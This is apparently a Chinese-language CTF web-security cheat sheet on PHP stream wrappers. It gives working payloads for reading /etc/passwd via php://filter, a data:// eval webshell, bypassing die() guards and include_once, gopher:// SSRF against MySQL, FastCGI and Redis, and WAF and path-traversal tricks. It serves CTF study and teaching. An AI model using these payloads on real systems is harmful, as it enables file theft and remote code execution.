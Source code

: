 - [PHP官方文档](https://www.php.net/manual/en/wrappers.php)
- # `php://`
  id:: 66363328-deca-4ae5-a4d2-762a1ecc9636
	- 各种编码的加解密
		- ```
		  base64编码，读取文件：
		  php://filter/read=convert.base64-encode/resource=
		  base64解码，读取文件：
		  php://filter/read=convert.base64-decode/resource=
		  base64解码，写入文件：
		  php://filter/write=convert.base64-decode/resource=
		  rot13编码
		  php://filter/write=string.rot13/resource=
		  zlib压缩
		  php://filter/zlib.inflate/resource=
		  ```
	- include无写入文件RCE
	  id:: 63bc02d6-ea56-4c2a-a494-0cb277531dba
		- 通过错误的编码转换，我们可以在文件内容的开头加入某些字符，这样我们就可以在文件的开头写入任意内容，并实现RCE
		- [参考](https://tttang.com/archive/1395/)
		- [Payload生成](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
		  id:: 66b4eb0a-b8af-4977-a90e-e56b3cf2986e
		- 如果是`include_once`或者`require_once`那可能要配合 ((636665b7-cd42-4bd2-a685-f5e5cc4f5ec7))
	- 让php崩溃，从而让临时文件留在/tmp中
	  id:: 636665b7-767d-440c-8482-bb5e1dc0933c
		- `php://filter/string.strip_tags/resource=/etc/passwd`
	- 让`include_once`和`require_once`失效：
	  id:: 636665b7-cd42-4bd2-a685-f5e5cc4f5ec7
		- `php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/etc/passwd`
	- isset函数支持php伪协议
	- 绕开死亡`die`
		- 某些题目会在文件的开头加入类似`<?php die();`的内容，让我们无法正常写入webshell, 我们可以使用base64解码或者其他方式破坏掉前面的`die`
		- `php://filter/write=string.strip_tags|convert.base64-decode/resource=`
		- `convert.iconv.UCS-2LE.UCS-2BE`可以用于两两交换字符
	- php在解析伪协议时会先urldecode伪协议，所以可以使用二次编码绕过WAF
	  id:: 64673efa-c544-4ad7-9b9b-920b148d0b26
	- 基于filter报错进行读取文件：[[CTFWEB/PHP/基于PHP伪协议报错实现文件读取]]
	- 利用编码转换在文件内容前后加上字符
		- https://www.ambionics.io/blog/wrapwrap-php-filters-suffix
		- 可以利用其输出包含文件内容的JSON
	- 所有filter
		- ```php
		  zlib.*
		  convert.iconv.*
		  string.rot13
		  string.toupper
		  string.tolower
		  string.strip_tags
		  convert.base64-encode
		  convert.base64-decode
		  convert.quoted-printable-encode
		  convert.quoted-printable-decode
		  consumed
		  dechunk
		  ```
- # `data://`
	- 单纯表示某个内容，比如：`data://text/plain,123`读取出来的内容就是`123`
	- include无写入文件RCE
		- `data://text/plain,<?php eval($_POST['data']);?>`
	- base64
		- `data://text/plain;base64,`
	- php中也可以是`data:xxx`
		- [[CTFWEB/WP/Phuck2]]
	- `data://`其中的`text`可以换成`localhost`，绕过`parse_url`
	  id:: 66adf55c-36a2-468b-81db-ee02adcdce2d
		- 例题: ((66adf65b-9144-44e3-b41e-37b0fd38d504))
		- ```php
		  $f = "data://localhost/plain,123";
		  $s = parse_url($f); # .host == "localhost"
		  var_dump(file_get_contents($f)); # "123"
		  ```
- # `gopher://`
  id:: 62f27746-a352-41d4-b76d-63fc1f7c9e4f
	- `gopher://127.0.0.1:9000/_xxx`
		- 其中xxx是（URL编码后的）TCP发送的数据
	- 打SSRF
		- 打无密码MySQL
			- 只需要无密码用户的用户名即可执行任意SQL指令
		- 打FastCGI
			- 只需要一个存在主机上文件的路径就可以执行任意Shell指令
		- 可以打：`mysql, postgresql, fastcgi, redis, smtp, zabbix, pymemcache, rbmemcache, phpmemcache, dmpmemcache`
	- Payload可以用 ((62f14125-43fc-4da5-b83f-4d56aa1d2157)) 生成
- # `phar://`
	- 读取某个phar压缩包中的文件
	- `phar://a.phar/a.txt`
	- [[CTFWEB/PHP/Phar]]
	- 从PHP 8.0版本（发布于2020年）开始，`phar://`不再反序列化元数据
	  id:: 66a359e7-00fa-407c-93ab-64606e9f1637
- # `file://`
	- 表示文件，如`file:///etc/passwd`
	- `file://`除了直接写绝对路径，还可以写`file://<ip-or-domain>/<path>`
	  id:: 65b3d87d-c0d2-45b0-8736-6cdec74a9406
		- 也就是说支持`file://localhost/etc/passwd`的格式
		- 如果ip或域名不是本机则会使用ftp进行连接并读取文件，但是貌似不能带端口
- # `dict://`
	- 发送TCP数据，感觉不如`gopher://`
- # `glob://`
	- 读取目录，后面接上Linux的glob表达式
	- {{embed [[CTFWEB/PHP/目录读取]]}}
- 另：
	- java 的`file://`可以读取目录
	- 能用`file://`的地方有时可以不用`file://`, 直接读取
		- 比如`file:///etc/passwd`和`/etc/passwd`
- 其他
	- 有关file_get_contents()函数的一个trick，可以看作是SSRF的一个黑魔法，当PHP的 file_get_contents() 函数在遇到不认识的伪协议头时候会将伪协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件。
		- ```
		  httpsssss://../../../../../../etc/passwd
		  httpsssss://abc../../../../../../etc/passwd
		  ```
	- 在很多时候伪协议都是支持URL编码的，可以用来绕过关键字检测